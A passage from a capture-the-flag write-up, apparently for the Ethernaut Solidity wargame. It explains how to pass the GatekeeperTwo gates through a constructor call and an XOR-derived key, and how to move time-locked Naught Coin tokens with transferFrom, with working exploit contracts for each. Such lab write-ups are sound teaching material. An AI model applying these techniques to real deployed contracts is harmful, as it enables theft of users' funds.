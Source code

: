 So the lines
```
assembly { x := extcodesize(caller()) }
require(x == 0);
```

are checking that the caller has 0 contract code. But how can we
use a contract to bypass the first gate but at the same time pass
the second gate, if by default a contract has non-zero byte code?

The answer lies in knowing the special scenario when your contract
can execute but will also return `0` for a call to `extcodesize(caller())`:
in the constructor. During contract initialization the constructor is called
but the contract bytecode is still 0. This is because the contract's runtime
bytecode isn't actually stored on chain until the constructor has finished
executing.  Thus, we can pass the second gate by doing our call's from the
exploit contract's constructor...

## Gate three
Recall the `^` operator is a bitwise XOR. Also, the inverse of XOR is XOR.
So if we have `X ^ Y = Z` we have `Y = X ^ Z`. We can compute our gate key
directly in our exploit contract as follows:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./GatekeeperTwo.sol";

contract GatekeeperTwoExploit {
    constructor(address gatekeeper) public {
        uint64 gateKey = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1);
        GatekeeperTwo(gatekeeper).enter(bytes8(gateKey));
    }
}
```

And that clears the level!

# Naught Coin
The ERC20 specification supports two ways to transfer [6]:
1. A direct transfer
2. An approval followed by a transferFrom by a third party

The vulnerable contract time locks `transfer` but puts no
restrictions on `transferFrom`. We'll use `transferFrom`
to move the tokens.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/IERC20.sol";

contract NaughtCoinExploit {
    function exploit(address erc20, address owner, address receiver, uint256 amount) external {
        IERC20(erc20).transferFrom(owner, receiver, amount);
    }
}
```
